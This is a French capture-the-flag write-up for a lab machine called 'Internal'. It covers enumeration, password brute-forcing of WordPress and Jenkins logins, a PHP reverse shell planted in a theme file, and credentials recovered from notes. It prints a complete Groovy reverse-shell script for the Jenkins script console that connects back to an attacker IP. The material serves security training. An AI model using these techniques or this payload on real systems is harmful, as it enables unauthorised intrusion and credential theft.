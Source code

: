 # Internal

![image(1)](https://user-images.githubusercontent.com/68467919/209453743-532d3e43-9d94-4af1-85dd-11cccdf0b141.png)

## Énumération

### Nmap

```bash
sudo nmap -sC -sV -O -oN enum/nmap -vv internal.thm

PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 6efaefbef65f98b9597bf78eb9c5621e (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCzpZTvmUlaHPpKH8X2SHMndoS+GsVlbhABHJt4TN/nKUSYeFEHbNzutQnj+DrUEwNMauqaWCY7vNeYguQUXLx4LM5ukMEC8IuJo0rcuKNmlyYrgBlFws3q2956v8urY7/McCFf5IsItQxurCDyfyU/erO7fO02n2iT5k7Bw2UWf8FPvM9/jahisbkA9/FQKou3mbaSANb5nSrPc7p9FbqKs1vGpFopdUTI2dl4OQ3TkQWNXpvaFl0j1ilRynu5zLr6FetD5WWZXAuCNHNmcRo/aPdoX9JXaPKGCcVywqMM/Qy+gSiiIKvmavX6rYlnRFWEp25EifIPuHQ0s8hSXqx5
|   256 ed64ed33e5c93058ba23040d14eb30e9 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBMFOI/P6nqicmk78vSNs4l+vk2+BQ0mBxB1KlJJPCYueaUExTH4Cxkqkpo/zJfZ77MHHDL5nnzTW+TO6e4mDMEw=
|   256 b07f7f7b5262622a60d43d36fa89eeff (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIMlxubXGh//FE3OqdyitiEwfA2nNdCtdgLfDQxFHPyY0
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.29 (Ubuntu)
```

### Gobuster

```bash
gobuster dir -u http://internal.thm -w ~/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -o enum/directory.txt

/blog                 (Status: 301) [Size: 311] [--> http://internal.thm/blog/]
/wordpress            (Status: 301) [Size: 316] [--> http://internal.thm/wordpress/]
/javascript           (Status: 301) [Size: 317] [--> http://internal.thm/javascript/]
/phpmyadmin           (Status: 301) [Size: 317] [--> http://internal.thm/phpmyadmin/]
```

## Port 80 | HTTP

Quand nous nous rendons sur le port 80, nous pouvons découvrir la page par défaut d’Apache. En énumérant les différentes directories, nous pouvons nous rendre compte qu’un répertoire *blog* est accessible.

![Untitled](https://user-images.githubusercontent.com/68467919/209453750-38b5862b-e855-42a1-839c-66a67788303a.png)

### WpScan

En énumérant les utilisateurs du Wordpress, un seul ressort dans l’output du scan et c’est l’utilisateur admin. Vu qu’XMLRPC est activé, nous pouvons tenter de faire un bruteforce contre la page login du wp-admin pour essayer de trouver le mot de passe de l’utilisateur.

```bash
wpscan -t 5 --url http://internal.thm/blog/ --wp-content-dir /wp-admin/ -U user.txt -P ~/SecLists/Passwords/Leaked-Databases/rockyou.txt

[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - admin / my[...]ys
```

Grâce à la wordlist *rockyou.txt*, nous trouvons le mot de passe de l’admin ! Nous pouvons désormais nous connecter au panel administrateur.

![Untitled 1](https://user-images.githubusercontent.com/68467919/209453751-e16d998c-2d90-4f61-8476-fcd155e76050.png)

## Reverse-Shell

En modifiant la page 404.php de la template que le Wordpress utilise (twentyseventeen), nous pouvons y mettre notre propre reverse-shell. 

![Untitled 2](https://user-images.githubusercontent.com/68467919/209453754-3ec58514-190e-43db-8c25-203d624f5a61.png)

Par la suite, nous pouvons lancer notre listener et nous rendre dans le répertoire de la template (blog/wp-content/themes/twentyseventeen/) puis sur la page 404.php.

```bash
nc -lvnp 1337
```

→ *http://internal.thm/blog/wp-content/themes/twentyseventeen/404.php*

![Untitled 3](https://user-images.githubusercontent.com/68467919/209453755-2840d579-9a70-4493-a085-83a38a18e76f.png)

## Aubreanna | User

En recherchant rapidement sur les fichiers du système, dans le répertoire */opt* nous pouvons trouver un fichier du nom de “*wp-save.txt”* qui contient les logs de l’utilisateur Aubreanna.

```bash
Bill,

Aubreanna needed these credentials for something later.  Let her know you have them and where they are.

aubreanna:bub[...]@#123
```

Nous pouvons désormais nous connecter en SSH à sa session pour obtenir un shell plus stable.

![Untitled 4](https://user-images.githubusercontent.com/68467919/209453758-36b0542c-40b5-41f9-ba24-d21624967ae7.png)

## Jenkins | Port Forwarding

En allant dans le home directory de aubreanna, nous pouvons encore trouver un fichier du nom de “*jenkins.txt*” qui nous indique qu’un service est entrain de run en local. 

```bash
Internal Jenkins service is running on 172.17.0.2:8080
```

Nous pouvons en déduire également que nous nous trouvons dans un docker. Pour le vérifier, nous pouvons taper la commande ifconfig.

```bash
ifconfig

docker0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.17.0.1  netmask 255.255.0.0  broadcast 172.17.255.255
        inet6 fe80::42:aeff:fe74:ff4e  prefixlen 64  scopeid 0x20<link>
        ether 02:42:ae:74:ff:4e  txqueuelen 0  (Ethernet)
        RX packets 8  bytes 420 (420.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 18  bytes 1324 (1.3 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 9001
        inet 10.10.197.88  netmask 255.255.0.0  broadcast 10.10.255.255
        inet6 fe80::57:30ff:fe64:2a39  prefixlen 64  scopeid 0x20<link>
        ether 02:57:30:64:2a:39  txqueuelen 1000  (Ethernet)
        RX packets 415114  bytes 50820091 (50.8 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 467047  bytes 634869473 (634.8 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 866  bytes 80254 (80.2 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 866  bytes 80254 (80.2 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

vethad750dd: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet6 fe80::54b2:f8ff:fe12:50c8  prefixlen 64  scopeid 0x20<link>
        ether 56:b2:f8:12:50:c8  txqueuelen 0  (Ethernet)
        RX packets 8  bytes 532 (532.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 33  bytes 2470 (2.4 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

En tombant sur ce poste sur StackOverflow, j’ai pensé à essayer de créer un nouvel utilisateur via */securityRealm/addUser* mais en analysant la réponse de la requête sur BurpSuite, il m’est indiqué qu’il est impossible pour moi de pouvoir le faire étant donné que je suis authentifié en tant qu’anonymous.

[https://stackoverflow.com/questions/15227305/what-is-the-default-jenkins-password](https://stackoverflow.com/questions/15227305/what-is-the-default-jenkins-password)

![Untitled 5](https://user-images.githubusercontent.com/68467919/209453762-479ebf66-843f-437f-a56e-991d37df22ef.png)

![Untitled 6](https://user-images.githubusercontent.com/68467919/209453764-2a2a1fca-3435-42bb-a7b1-203c68b9fcc7.png)

J’ai pensé à essayer de faire une requête curl depuis la machine vers cet endpoint pour essayer de me créer un utilisateur mais ça n’a pas fonctionné non plus.

### Hydra

En repensant aux étapes par laquelle je suis passé pour arriver jusqu’ici, j’ai eu l’idée de réessayer un bruteforce sur la page de connexion de Jenkins.

![Untitled 7](https://user-images.githubusercontent.com/68467919/209453766-2711100b-eee6-4368-9bcf-287ec21b4f44.png)

Le mot de passe est trouvé, nous pouvons désormais nous connecter au panel Jenkins !

## Reverse-Shell | Jenkins

Jenkins dispose d'une console de script Groovy qui permet d'exécuter des scripts Groovy arbitraires dans l'environnement d'exécution du contrôleur Jenkins ou dans l'environnement d'exécution des agents. Pour obtenir un reverse-shell depuis Jenkins, il faut nous rendre dans **********************Manage Jenkins → Script Console********************** et rentrer ces commandes ci-dessous : 

```bash
String host="{your_ip}";
int port=8044;
String cmd="/bin/bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();
Socket s=new Socket(host,port);
InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();
OutputStream po=p.getOutputStream(),so=s.getOutputStream();
while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());
while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());
so.flush();po.flush();Thread.sleep(50);
try {p.exitValue();break;}catch (Exception e){}};
p.destroy();s.close();
```

![Untitled 8](https://user-images.githubusercontent.com/68467919/209453767-cfbdb7c4-2ae5-47c8-9a4d-492b42d57812.png)

## Root | root.txt

Rien de sensationnel pour pouvoir élever nos privilèges pour devenir root. En allant dans le fichier */opt/* nous pouvons trouver un deuxième fichier s’appelant “*note.txt*”. A l’intérieur, nous pouvons y trouver le password root. En nous rendant sur sur la session de Aubreanna, nous pouvons nous connecter en SSH au compte root.

*note.txt*

```bash
Aubreanna,

Will wanted these credentials secured behind the Jenkins container since we have several layers of defense here.  Use them if you 
need access to the root user account.

root:tr[...]uM!@#123
```

![Untitled 9](https://user-images.githubusercontent.com/68467919/209453769-544f3e21-3333-42d8-8ba8-a69167bbadc4.png)


ROOTED !!
